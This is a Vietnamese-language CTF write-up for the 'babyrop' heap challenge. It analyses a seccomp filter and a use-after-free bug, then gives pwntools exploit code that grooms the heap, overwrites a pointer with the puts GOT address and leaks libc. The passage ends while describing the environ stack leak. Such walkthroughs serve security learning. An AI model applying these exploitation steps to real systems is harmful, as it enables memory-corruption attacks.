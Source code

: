 **Hint**
In many of these type of CTF challenges you usually end up creating 10 or so allocations, freeing them, then creating a larger one that can write to previously allocated memory with pointers we want to control that have existing pointers pointing to them.

**1. Tìm lỗi**

Đầu tiên dùng lệnh `file` để kiểm tra thông tin file thực thi:

```
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=22e8dcbaa41a9ddd0d137d3f83de9d9eee392236, for GNU/Linux 3.2.0, not stripped
```

Là file ELF 64bit. Tiếp theo sử dụng lệnh 'checksec' để kiểm tra:

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Chúng ta thấy Full RELRO nên không ghi đề lên GOT nào, NX bật, và stack không thực thi. Tiếp theo sẽ đi phân tích mã nguồn

```
struct sock_filter filter[] = {
        VALIDATE_ARCHITECTURE,
        EXAMINE_SYSCALL,
        ALLOW_SYSCALL(mprotect),
        ALLOW_SYSCALL(mmap),
        ALLOW_SYSCALL(munmap),
        ALLOW_SYSCALL(exit_group),
        ALLOW_SYSCALL(read),
        ALLOW_SYSCALL(write),
        ALLOW_SYSCALL(open),
        ALLOW_SYSCALL(close),
        ALLOW_SYSCALL(openat),
        ALLOW_SYSCALL(fstat),
        ALLOW_SYSCALL(brk),
        ALLOW_SYSCALL(newfstatat),
        ALLOW_SYSCALL(ioctl),
        ALLOW_SYSCALL(lseek),
        KILL_PROCESS,
    };
```

Mở đầu đã thấy giới hạn số hàm syscall mà mình có thể thực thi. Nhìn qua thì không thấy hàm để thực thi shell nhưng có hàm open, read và write để đọc và ghi file.

```
void free_safe_string(int i) {
    safe_string * ptr = data_storage[i];
    free(ptr->string);
    free(ptr);
}
```

Ở hàm trên free nhưng không xóa con trỏ nên có lỗi Use After Free

**2. Ý tưởng**

Sau khi đọc hint thì chúng ta tạo 10 chunk và free chúng. Sau đó tạo 1 chunk lớn hơn ta được như sau:

```
pwndbg> x/10xg &data_storage
0x404040 <data_storage>:        0x00000000015c9960      0x00000000015c9730
0x404050 <data_storage+16>:     0x00000000015c97a0      0x00000000015c9810
0x404060 <data_storage+32>:     0x00000000015c9880      0x00000000015c98f0
0x404070 <data_storage+48>:     0x00000000015c9960      0x00000000015c99d0
0x404080 <data_storage+64>:     0x00000000015c9a40      0x00000000015c9ab0
pwndbg> x/2xg 0x00000000015c9960
0x15c9960:      0x0000000000000420      0x00000000015c99d0
pwndbg> x/s 0x00000000015c99d0
0x15c99d0:      "0*8\352 \177"
```

Ta thấy được giá trị string của index 0 (data_storage[0][1]) sẽ được ghi vào index 7 (data_storage[7]) . Với điều đó chúng ta sẽ viết 1 chunk 0 bằng 6 chunk cũ và 'put@got' là địa chỉ của chunk7, sau đó đọc chunk 7 từ menu sẽ leak được địa chỉ libc.

Vậy có 2 việc cần làm:

- Leak địa chỉ libc

- Tạo ROP chain và lấy flag

**3. Khai thác**

Tạo 4 hàm để tiện sử dụng với 4 lựa chọn

```
def creat(index, size, data):
    r.sendlineafter(b"enter your command: ", b"C")
    r.sendlineafter(b"enter your index: ", '{}'.format(index).encode())
    r.sendlineafter(b"How long is your safe_string: ", '{}'.format(size).encode())
    r.sendafter(b"enter your string: ", data)

def free(index):
    r.sendlineafter(b"enter your command: ", b"F")
    r.sendlineafter(b"enter your index: ", '{}'.format(index).encode())

def read(index):
    r.sendlineafter(b"enter your command: ", b"R")
    r.sendlineafter(b"enter your index: ", '{}'.format(index).encode())
    return r.recvuntil(b"enter")

def write(index, data):
    r.sendlineafter(b"enter your command: ", b"W")
    r.sendlineafter(b"enter your index: ", '{}'.format(index).encode())
    r.sendafter(b"enter your string: ", data)
```

Tiếp theo là tạo 10 chunk rồi free chúng. Tiếp tục tạo nốt chunk lớn hơn bằng 6 chunk cũ

```
for i in range(10):
    creat(i, 0x40, '{}'.format(i).encode()*8)
for i in range(10):
    free(i)
creat(0, 0x420, b'0*8')
```

Tiếp theo sẽ viết địa chỉ của 'put@got' vào chunk 0 và đọc nó xem

```
write(0, flat(0x8, exe.got['puts']))
print(read(7))
```

![leak.png](photo/leak.png)

Và như thế địa chỉ của puts đã được leak ra. Tiếp theo sẽ lưu nó vào biến puts_leak

```
puts_leak = read(7).split(b'\n')[1].decode().split(' ')[::-1][2:-1]
puts_leak = int(''.join([i for i in puts_leak]), 16)
```

Từ đó việc leak địa chỉ libc base đã trở nên dễ hơn

```
libc.address = puts_leak - libc.sym['puts']
```

Tiếp theo sẽ tính toán địa chỉ 'environ' để leak địa địa chỉ stack để sau đó saved rip hàm main bằng tính toán địa chỉ environ vừa leak ra với stack